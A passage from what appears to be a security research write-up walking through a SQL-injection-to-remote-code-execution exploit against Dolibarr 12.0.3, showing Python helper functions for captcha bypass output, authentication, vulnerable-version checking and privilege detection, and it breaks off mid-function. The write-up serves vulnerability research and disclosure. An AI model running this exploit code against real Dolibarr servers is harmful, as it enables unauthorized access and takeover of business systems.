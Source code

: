 ```python


get_antispam_code("http://127.0.0.1/projects/dolibarr/12.0.3/htdocs/")
```

Which gives us the following result:

```
▶ python3 sqli_to_rce_12.0.3.py
[*] Antispam code (hsqNn) stored at: /tmp/6548
```

> Note: Since it is finally the function `strtolower()` that is applied to our code we could reduce the ensemble from `aAbBCDeEFgGhHJKLmMnNpPqQRsStTuVwWXYZz2345679` to `ABCDEFGHJKLMNPQRSTVWXYZ2345679` in order to reduce the number of queries induced by the OCR fails. But in order to best respect what the application does let's leave it as we did.

We now get to the heart of the matter, we are going to use the vulnerability discovered in the previous [chapter](https://therealcoiffeur.github.io/c10010) to first perform the following actions:

### Identification of the table's prefix

Authentication:

```python
def authenticate(url, username, password):
    datas = {
        "actionlogin": "login",
        "loginfunction": "loginfunction",
        "username": username,
        "password": password
    }
    r = SESSION.post(f"{url}index.php", data=datas,
                     allow_redirects=False, verify=False)
    if r.status_code != 302:
        if DEBUG:
            print(f"[x] Authentication failed!")
        return 0
    if DEBUG:
        print(f"    [*] Authenticated as: {username}")
    return 1
```

Check if the version is vulnerable and privileges correctly defined:

```python
def get_version(url):
    r = SESSION.get(f"{url}index.php", verify=False)
    x = re.findall(
        r"Version Dolibarr [0-9]{1,2}.[0-9]{1,2}.[0-9]{1,2}", r.text)
    if x:
        version = x[0]
        if "12.0.3" in version:
            if DEBUG:
                print(f"    [*] {version} (exploit should work)")
            return 1
    if DEBUG:
        print(f"[*] Version may not be vulnerable")
    return 0


def get_privileges(url):
    r = SESSION.get(f"{url}index.php", verify=False)
    x = re.findall(r"id=\d", r.text)
    if x:
        id = x[0]
        if DEBUG:
```